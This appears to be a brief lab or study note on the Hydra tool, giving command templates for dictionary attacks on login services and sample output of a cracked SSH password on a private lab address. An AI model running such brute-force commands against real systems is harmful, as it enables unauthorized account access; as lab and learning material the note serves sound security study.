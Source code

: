 # Hydra, password breaker

Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

## How to use hydra
You will have to specify your username, password, server and service used
`hydra -l <username> -p <password> <server> <service>`
Put options in capital if you want to you a list of a file for the user or password
`hydra -L <usersFile> -P <passwdFile> <server> <service>`

## Results of execution of Hydra
*[DATA] attacking ssh://10.10.137.76:22/
[22][ssh] host: 10.10.137.76    login: molly    password: butterfly
1 of 1 target successfully completed, 1 valid password found*
